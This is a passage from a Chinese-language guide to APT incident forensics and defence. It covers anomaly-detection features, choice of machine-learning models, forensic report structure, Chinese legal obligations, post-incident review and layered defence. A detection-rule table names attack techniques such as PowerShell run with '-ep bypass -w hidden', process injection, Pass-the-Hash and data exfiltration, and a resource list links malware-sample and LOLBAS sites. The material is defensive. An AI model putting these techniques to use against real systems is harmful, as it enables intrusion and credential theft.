| 文件特征 | 敏感目录文件访问频率 | 超过基线5倍 | 文件审计日志 |
| 用户特征 | 用户行为序列异常 | 偏离正常模式>3σ | 综合日志 |
| 认证特征 | 短时间内多源认证 | 5分钟内>3个不同IP | 域控日志 |
| 数据特征 | 大量数据外传 | 超过基线10倍 | 防火墙日志 |

**机器学习模型选型建议：**

| 模型类型 | 适用场景 | 优势 | 劣势 |
|---------|---------|------|------|
| 隔离森林 | 无监督异常检测 | 不需要标注数据，可发现未知异常 | 误报率较高 |
| LSTM | 时序行为分析 | 可捕获长期依赖关系 | 训练数据需求大 |
| 图神经网络 | 关系分析 | 可发现隐含的关联关系 | 计算资源消耗大 |
| 随机森林 | 有监督分类 | 可解释性强，训练快 | 需要标注数据 |
| 自编码器 | 重构异常检测 | 对噪声鲁棒 | 可能学习到攻击模式 |

#### 10.3 取证报告撰写规范

一份合格的APT取证报告应包含以下章节，每个章节面向不同的读者群体：

```text
取证报告目录结构：
1. 执行摘要（面向管理层，1-2页）
   - 事件概述（何时、何地、发生了什么）
   - 关键发现（最重要的3-5个发现）
   - 影响评估（数据泄露量、业务影响、合规风险）
   - 建议措施（紧急、短期、长期）
   
2. 技术细节（面向技术团队，详细记录）
   - 分析方法论（使用了什么方法，为什么选择这些方法）
   - 证据收集清单（收集了什么证据，如何保全）
   - 发现与证据（每个发现的详细描述和支撑证据）
   - 攻击时间线（完整的攻击路径重建）
   - 恶意代码分析（功能、行为、技术特征）
   
3. IOC清单（面向安全运维，可直接使用）
   - 文件哈希和路径
   - 网络指标（IP、域名、JA3指纹）
   - 注册表和配置指标
   - 行为指标
   - 检测规则（YARA、Snort/Suricata）
   
4. 应急处置（面向运维团队，可执行操作）
   - 即时处置步骤（按优先级排列）
   - 短期加固措施（含负责人和时间表）
   - 长期改进计划（含资源需求）
   
5. 附录（技术参考）
   - 原始证据清单和哈希值
   - 工具版本和配置
   - 参考文献
   - 术语表
```

**报告撰写的关键原则：**
- **客观中立**：只陈述事实和证据，不添加主观推测
- **可验证**：每个结论都有对应的证据支撑
- **可操作**：建议措施必须具体到可执行的步骤
- **分层呈现**：管理层看摘要，技术团队看细节，运维团队看操作

#### 10.4 法律合规与执法协调

APT攻击涉及国家安全和跨境犯罪，取证过程必须遵循相关法律法规：

**中国法律框架：**

| 法律法规 | 适用条款 | 关键要求 |
|---------|---------|---------|
| 《网络安全法》 | 第25、47、51条 | 事件报告义务、数据留存、应急响应 |
| 《数据安全法》 | 第29、31条 | 数据分类分级、重要数据出境评估 |
| 《个人信息保护法》 | 第57条 | 个人信息泄露通知义务 |
| 《刑法》 | 第285、286条 | 非法侵入计算机信息系统罪 |
| 《网络安全事件应急预案》 | 全文 | 事件分级、报告流程、应急处置 |

**执法协调流程：**

1. **事件发现** → 内部评估，判断是否需要报告
2. **初步报告** → 24小时内向行业主管部门和公安机关报告
3. **证据固定** → 按照司法取证标准保全证据
4. **执法配合** → 配合公安机关调查，提供技术分析支持
5. **持续更新** → 事件处置过程中持续向主管部门报告进展

**跨境取证的特殊挑战：**
- 不同国家的数据保护法律差异（如GDPR）
- 证据的跨境调取需要通过司法协助条约（MLAT）
- 部分国家可能拒绝配合（政治因素）
- 时间同步和法律标准差异影响证据采信

#### 10.5 事件复盘方法论

事件处置完成后，必须进行系统性的复盘，总结经验教训：

**复盘会议议程：**

```text
1. 事件回顾（30分钟）
   - 时间线重建
   - 关键决策点回顾
   - 哪些做得好，哪些做得不好

2. 根因分析（45分钟）
   - 攻击者如何成功入侵？
   - 为什么防御没有发现？
   - 为什么响应延迟？

3. 改进措施（45分钟）
   - 技术改进（检测、防御、响应）
   - 流程改进（监控、告警、处置）
   - 人员改进（培训、演练、编制）

4. 行动计划（30分钟）
   - 改进措施优先级排序
   - 责任人分配
   - 时间表制定
   - 验收标准确认
```

**复盘输出文档模板：**

| 章节 | 内容 | 负责人 |
|------|------|-------|
| 事件概述 | 时间线、影响范围、处置结果 | 项目经理 |
| 根因分析 | 技术根因、流程根因、管理根因 | 安全架构师 |
| 经验教训 | 做得好的、做得不好的、需要改进的 | 全体参与人员 |
| 改进计划 | 技术改进、流程改进、人员改进 | 安全负责人 |
| 跟踪机制 | 改进措施进度跟踪、验收标准 | 项目管理 |

### 十一、APT防御纵深体系

基于本次事件的经验教训，构建面向APT的纵深防御体系：

#### 11.1 防御层次模型

| 防御层 | 措施 | 目标 |
|-------|------|------|
| 第一层：边界防御 | 防火墙、IDS/IPS、邮件网关 | 阻止已知攻击 |
| 第二层：网络防御 | 网络分段、流量监控、TLS解密 | 发现异常通信 |
| 第三层：终端防御 | EDR、防病毒、应用程序控制 | 检测恶意行为 |
| 第四层：身份防御 | MFA、PAM、最小权限 | 限制凭据滥用 |
| 第五层：数据防御 | 加密、DLP、分类分级 | 保护核心数据 |
| 第六层：检测响应 | SIEM、SOAR、威胁情报 | 快速发现响应 |

#### 11.2 APT检测关键规则

基于本次案例的IOC和TTP，提炼以下通用检测规则：

| 检测目标 | 规则描述 | 数据源 | 误报控制 |
|---------|---------|-------|---------|
| 钓鱼邮件 | 附件含宏代码的邮件 | 邮件网关 | 白名单已知业务文档 |
| PowerShell滥用 | -ep bypass + -w hidden组合 | Sysmon 4104 | 排除已知管理脚本 |
| 异常进程注入 | svchost.exe在非标准路径 | EDR | 进程路径白名单 |
| Pass-the-Hash | NTLM认证无明文密码 | 域控4624/4625 | 排除服务账户 |
| 数据外传 | 夜间大量HTTPS上传 | 防火墙 | 基线流量对比 |
| DGA域名 | 8-20位随机字母域名 | DNS日志 | 统计模型评分 |

### 十二、参考资源

#### 威胁情报平台

| 平台名称 | 用途 | 访问方式 | 数据类型 |
|---------|------|---------|---------|
| VirusTotal | 多引擎恶意代码扫描 | https://www.virustotal.com | 文件哈希、URL、域名、IP |
| AlienVault OTX | 开源威胁情报 | https://otx.alienvault.com | IOC、脉冲、社区共享 |
| IBM X-Force | 威胁情报查询 | https://exchange.xforce.ibmcloud.com | IP、域名、哈希、漏洞 |
| MITRE ATT&CK | 攻击技术知识库 | https://attack.mitre.org | TTP、技术、案例 |
| 国家信息安全漏洞共享平台 | 漏洞信息 | https://www.cnvd.org.cn | CVE、CNVD编号、修复建议 |
| 微步在线 | 威胁情报查询 | https://x.threatbook.com | IP、域名、文件、情报 |
| 奇安信威胁情报中心 | 国产威胁情报 | https://ti.qianxin.com | APT组织、IOC、报告 |

#### 学习资源

| 资源名称 | 类型 | 适用层级 | 核心内容 |
|---------|------|---------|---------|
| 《The Art of Memory Forensics》 | 书籍 | 中级-高级 | 内存取证权威教材，Volatility实战 |
| 《Practical Malware Analysis》 | 书籍 | 初级-中级 | 恶意代码分析入门必读 |
| 《Incident Response & Computer Forensics》 | 书籍 | 中级 | 应急响应与取证实战手册 |
| 《The IDA Pro Book》 | 书籍 | 中级-高级 | 逆向工程权威参考 |
| SANS FOR508 | 课程 | 中级-高级 | 高级取证分析与威胁检测 |
| SANS FOR610 | 课程 | 中级-高级 | 逆向工程恶意软件 |
| Volatility官方文档 | 文档 | 所有层级 | Volatility框架使用指南 |
| MITRE ATT&CK官网 | 在线 | 所有层级 | 攻击技术知识库，持续更新 |

#### 在线社区与资源

| 资源 | 用途 | 链接 |
|------|------|------|
| MalwareBazaar | 恶意样本共享 | https://bazaar.abuse.ch |
| ANY.RUN | 在线沙箱分析 | https://any.run |
| Hybrid Analysis | 在线恶意代码分析 | https://hybrid-analysis.com |
| CyberChef | 数据编码/解码工具 | https://gchq.github.io/CyberChef |
| LOLBAS | Windows合法工具滥用 | https://lolbas-project.github.io |

> **关键教训**：APT溯源分析是一场持久战。攻击者可能潜伏数月甚至数年，取证人员必须保持耐心，严谨对待每一条线索。本次案例中，正是因为安全团队及时发现了异常流量并启动了完整的取证流程，才成功还原了攻击者的完整活动轨迹。在你的组织中，完善的监控体系、规范的取证流程、以及专业的安全团队，是应对APT威胁的最有效防线。
